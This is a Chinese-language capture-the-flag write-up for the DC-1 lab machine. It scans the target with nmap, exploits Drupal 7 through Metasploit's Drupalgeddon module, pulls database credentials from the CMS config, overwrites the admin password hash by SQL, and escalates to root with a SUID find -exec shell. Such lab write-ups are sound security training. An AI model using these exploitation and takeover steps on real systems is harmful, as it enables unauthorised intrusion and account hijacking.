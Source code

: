
# 0x00环境

攻击机：kali：192.168.1.28

靶机DC-1：192.168.1.9


# 0x01实战


## 端口扫描

```
nmap -sV -A 192.168.1.9
```

![image-20220107104613199.png](../../_img\06-靶场实践/1652255954098-0700cedc-75fe-4c96-abe5-14ab89c88c0e.png)


## 访问HTTP服务

访问80端口HTTP服务，发现是使用 Drupal CMS，并且版本为7

![image-20220107105358147.png](../../_img\06-靶场实践/1652255959245-13d40a44-1d20-4982-a63c-c1330596db57.png)

使用MSF查找与Drupal CMS相关的EXP

```
search drupal
```

![image-20220107105921406.png](../../_img\06-靶场实践/1652255963038-2475e1be-9fc2-410b-a692-084655cef658.png)

通过查看EXP模块详情发现`exploit/unix/webapp/drupal_drupalgeddon` 似乎可以使用

```
info 2
```

![image-20220107110425603.png](../../_img\06-靶场实践/1652255967047-5faf0b7c-8ab3-49da-83be-e665d366e7b4.png)


## 漏洞利用

利用该模块并查看配置文件

```
use 2
show options
```

![image-20220107110530628.png](../../_img\06-靶场实践/1652255971909-6b3aa1d4-6259-4622-ab57-12578a31cf03.png)

配置相关参数

```
set lhost 192.168.1.28
set rhosts 192.168.1.9
```

![image-20220107110637445.png](../../_img\06-靶场实践/1652255975864-75be36d4-2d04-4433-a756-2f8b11a1fbc2.png)

run，成功得到meterpreter

![image-20220107110748605.png](../../_img\06-靶场实践/1652255979901-8e41f483-c7a9-4673-8f70-4c4452d91a75.png)

查看当前用户和系统版本

```
getuid
sysinfo
```

![image-20220107111159067.png](../../_img\06-靶场实践/1652255983921-11cfa399-d174-428f-bb85-fabce60c93f6.png)

进入shell并使界面看起来正常

```
python -c 'import pty; pty.spawn("/bin/bash")'
```

![image-20220107111544038.png](../../_img\06-靶场实践/1652255987312-c53568c0-6990-4916-93b2-b689495a4fa4.png)


## flag1

查看文件目录，找到了flag1.txt

Every good CMS needs a config file - and so do you.

![image-20220107111851145.png](../../_img\06-靶场实践/1652255990515-bfb64f8b-dc4e-430e-b7a8-9c51097b7109.png)


## flag2

flag1提示我们查看CMS的配置文件

![image-20220107112446373.png](../../_img\06-靶场实践/1652255993777-8e77e361-9c91-4a3f-9c47-599f897a68d8.png)

查看文件位置并查看文件，可以看到我们找到了flag2并且还得到了数据库账户和密码

![image-20220107112910458.png](../../_img\06-靶场实践/1652255997121-c19add08-46e9-4e0d-b990-bbbf8c3e3b10.png)


## flag3

使用数据库用户和密码登录数据库

![image-20220107113644153.png](../../_img\06-靶场实践/1652256001810-3b52b153-fb38-4530-b7a5-5265bf1e23d6.png)

查看用户表

![image-20220107113909617.png](../../_img\06-靶场实践/1652256005524-6f7859e7-ab3f-47b9-80e0-805e52a146ea.png)

![image-20220107113924363.png](../../_img\06-靶场实践/1652256009220-c240efb2-891a-480a-b78a-d43210fd1fe4.png)

```
select * from users;
```

![image-20220107114016868.png](../../_img\06-靶场实践/1652256013575-71ac610c-2ffe-4f86-b06a-74f0388078a4.png)

这里可以看到密码是加密后的密文

查找Drupal CMS加密文件的位置

![image-20220107114414134.png](../../_img\06-靶场实践/1652256017083-ef5413c5-b733-445b-8878-fda29c9e3013.png)

```
.\scripts\password-hash.sh 123456
```

![image-20220107115210851.png](../../_img\06-靶场实践/1652256020348-4a1a84f3-a566-4a3c-bcc4-abc21a4dbca9.png)

登录数据库将我们得到的hash替换为admin的密码

```
update users set pass='$S$DPWha1TTG1nNNET2gdGSYoetnc24Qnc/fEzrWSzh.eWRrf.Gfu8N' where uid=1;
```

![image-20220107115719116.png](../../_img\06-靶场实践/1652256023897-f2427144-e8e7-43bd-9534-bf5d51580a8c.png)

尝试登录后台成功

![image-20220107115824507.png](../../_img\06-靶场实践/1652256027171-aac1c8ef-415f-4e50-bc0e-7f0e7e36264a.png)

在页面找到flag3.txt

![image-20220107115857884.png](../../_img\06-靶场实践/1652256031351-16b07db4-43ca-412b-9b0e-d7bf24e18f21.png)


## flag4

查看passwd文件

![image-20220107141827190.png](../../_img\06-靶场实践/1652256034504-51aa0317-c3a3-4a92-8e20-148c5569a047.png)

可以看到flag4在home目录下，进入home目录查看flag4

![image-20220107141958147.png](../../_img\06-靶场实践/1652256037523-1f03cd0e-5d12-4cdf-81f6-0686466f73f4.png)

flag4显示要求我们在根目录找到flag，需要提权

![image-20220107142115501.png](../../_img\06-靶场实践/1652256042656-aba84396-bc39-4a22-ba30-ec5dd0b8309f.png)

根据flag3，find这个命令可能是以root权限执行的，我们随便find一个内容，而-exec可以作为find的一个选项执行命令，成功得到root权限。

```
find ./ XMTX -exec '/bin/sh' \;
```

![image-20220107142213712.png](../../_img\06-靶场实践/1652256046184-91378b52-2ac6-4f03-bcc5-9aa6278113dc.png)

在根目录查看flag

![image-20220107142405491.png](../../_img\06-靶场实践/1652256050333-1f49b82e-d445-406e-b14f-9233d0ca6fa3.png)
